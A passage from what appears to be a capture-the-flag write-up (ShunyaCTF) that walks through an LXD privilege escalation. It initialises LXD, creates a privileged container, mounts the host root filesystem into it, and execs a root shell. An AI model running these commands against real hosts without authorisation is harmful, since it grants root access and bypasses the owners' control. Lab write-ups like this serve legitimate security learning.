 ![8](/assets/posts/ShunyaCTF/8.png)

If this error occurs, execute: 

```bash
lxd init
```

Just keep the defaults when asked by clicking enter and when asked `Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:`

Choose `dir` option.
Now execute this again after solving the error.

![9](/assets/posts/ShunyaCTF/9.png)

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

That's it, we got root now print out the root flag right. Developer be like: "Hahahaha Not that Easy".

![10](/assets/posts/ShunyaCTF/10.png)
